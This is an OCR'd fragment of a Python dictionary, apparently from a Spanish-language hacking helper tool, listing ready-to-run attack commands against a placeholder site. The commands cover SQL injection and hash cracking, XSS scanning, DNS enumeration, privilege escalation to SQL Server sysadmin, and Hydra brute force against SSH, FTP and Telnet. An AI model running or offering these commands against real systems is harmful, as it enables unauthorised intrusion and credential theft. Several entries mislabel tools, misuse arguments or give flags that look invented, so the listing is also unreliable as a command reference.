 ````python
    "SQLMap Explotación con Fuerza Bruta de Hashes": f"sqlmap -u {COLOR_RED}'https://objetivo.com/page?id=1'{COLOR_RESET} --data 'parametro=valor' --crack - {COLOR_YELLOW}Intenta crackear hashes de contraseñas recuperados de la base de datos.{COLOR_RESET}",
    "XSSer Escaneo Básico en Busca de Vulnerabilidades XSS": f"xsstrike -u {COLOR_RED}'https://objetivo.com'{COLOR_RESET} - {COLOR_YELLOW}Escanea la URL en busca de vulnerabilidades de Cross-Site Scripting (XSS).{COLOR_RESET}",
    "XSSer Escaneo con Enumeración de Enlaces Vulnerables": f"xsstrike -u {COLOR_RED}'https://objetivo.com'{COLOR_RESET} -l - {COLOR_YELLOW}Escanea y enumera enlaces vulnerables a ataques XSS en la página.{COLOR_RESET}",
    "XSSer Escaneo con Análisis de Todas las Inyecciones de Parámetros": f"xsstrike -u {COLOR_RED}'https://objetivo.com'{COLOR_RESET} -p all - {COLOR_YELLOW}Realiza un análisis exhaustivo de todas las inyecciones de parámetros en la URL.{COLOR_RESET}",
    "XSSer Escaneo con Filtrado Personalizado de Payloads": f"xsstrike -u {COLOR_RED}'https://objetivo.com'{COLOR_RESET} -p all -fp 'mi_payload.txt' - {COLOR_YELLOW}Escanea utilizando payloads personalizados definidos en 'mi_payload.txt'.{COLOR_RESET}",
    "XSSer Escaneo con Límite de Tiempo Personalizado": f"xsstrike -u {COLOR_RED}'https://objetivo.com'{COLOR_RESET} -t 10 - {COLOR_YELLOW}Establece un límite de tiempo para cada solicitud durante el escaneo.{COLOR_RESET}",
    "XSSer Escaneo con Seguimiento de Redirecciones": f"xsstrike -u {COLOR_RED}'https://objetivo.com'{COLOR_RESET} -r - {COLOR_YELLOW}Realiza el escaneo siguiendo las redirecciones en la página web objetivo.{COLOR_RESET}",
    "Dnsrecon Escaneo Básico de DNS": f"dnsrecon -d {COLOR_RED}https://objetivo.com{COLOR_RESET} - {COLOR_YELLOW}Realiza un escaneo básico en busca de registros DNS asociados al dominio.{COLOR_RESET}",
    "Dnsrecon Escaneo Utilizando Diccionario": f"dnsrecon -d {COLOR_RED}https://objetivo.com{COLOR_RESET} -t std -D /ruta/a/mi/diccionario.txt - {COLOR_YELLOW}Utiliza un diccionario personalizado para realizar un escaneo exhaustivo de DNS.{COLOR_RESET}",
    "Dnsrecon Enumeración de Servidores de Nombres": f"dnsrecon -d {COLOR_RED}https://objetivo.com{COLOR_RESET} -t brt - {COLOR_YELLOW}Enumera los servidores de nombres relacionados con el dominio.{COLOR_RESET}",
    "Dnsrecon Escaneo con un Límite de Tiempo Personalizado": f"dnsrecon -d {COLOR_RED}https://objetivo.com{COLOR_RESET} -t brt -T 30 - {COLOR_YELLOW}Establece un límite de tiempo para el escaneo.{COLOR_RESET}",
    "Dnsrecon Escaneo en Búsqueda de Subdominios": f"dnsrecon -d {COLOR_RED}https://objetivo.com{COLOR_RESET} -t brt -n - {COLOR_YELLOW}Busca subdominios relacionados con el dominio principal.{COLOR_RESET}",
    "Dnsrecon Escaneo Inverso de Direcciones IP": f"dnsrecon -r 192.168.1.1 - {COLOR_YELLOW}Realiza un escaneo inverso de una dirección IP específica.{COLOR_RESET}",
    "SQLNinja Detección de la Vulnerabilidad": f"sqlninja -i {COLOR_RED}https://objetivo.com{COLOR_RESET} - {COLOR_YELLOW}Detecta la vulnerabilidad de inyección SQL en el sitio web.{COLOR_RESET}",
    "SQLNinja Enumeración de Tablas": f"sqlninja -i {COLOR_RED}https://objetivo.com{COLOR_RESET}-m t - {COLOR_YELLOW}Enumera las tablas en la base de datos objetivo.{COLOR_RESET}",
    "SQLNinja Enumeración de Tablas": f"sqlninja -i {COLOR_RED}https://objetivo.com{COLOR_RESET} -tn - {COLOR_YELLOW}Enumera las tablas en la base de datos vulnerable.{COLOR_RESET}",
    "SQLNinja Enumeración de Columnas": f"sqlninja -i {COLOR_RED}https://objetivo.com{COLOR_RESET} -cn - {COLOR_YELLOW}Enumera las columnas en las tablas de la base de datos.{COLOR_RESET}",
    "SQLNinja Explotación de Inyección SQL": f"sqlninja -i {COLOR_RED}https://objetivo.com{COLOR_RESET} -m {COLOR_RED}POST{COLOR_RESET} - {COLOR_YELLOW}Explota la vulnerabilidad de inyección SQL y recupera datos de la base de datos.{COLOR_RESET}",
    "SQLNinja Escalada de Privilegios": f"sqlninja -i {COLOR_RED}https://objetivo.com{COLOR_RESET} -x {COLOR_RED}'EXEC sp_addsrvrolemember ''sysadmin'', ''usuario'';'{COLOR_RESET} - {COLOR_YELLOW}Realiza una escalada de privilegios para obtener control total del servidor SQL.{COLOR_RESET}",
    "Hydra Ataque de Fuerza Bruta SSH": f"hydra -l usuario -P /ruta/a/mi/lista_de_contraseñas.txt {COLOR_RED}ssh://objetivo.com{COLOR_RESET} - {COLOR_YELLOW}Realiza un ataque de fuerza bruta SSH contra un servidor remoto.{COLOR_RESET}",
    "Hydra Ataque de Fuerza Bruta FTP": f"hydra -l usuario -P /ruta/a/mi/lista_de_contraseñas.txt {COLOR_RED}ftp://objetivo.com{COLOR_RESET} - {COLOR_YELLOW}Realiza un ataque de fuerza bruta FTP contra un servidor remoto.{COLOR_RESET}",
    "Hydra Ataque de Fuerza Bruta Telnet": f"hydra -l usuario -P /ruta/a/mi/lista_de_contraseñas.txt {COLOR_RED}telnet://objetivo.com{COLOR_RESET} - {COLOR_YELLOW}Realiza un ataque de fuerza bruta Telnet contra un servidor remoto.{COLOR_RESET}",
````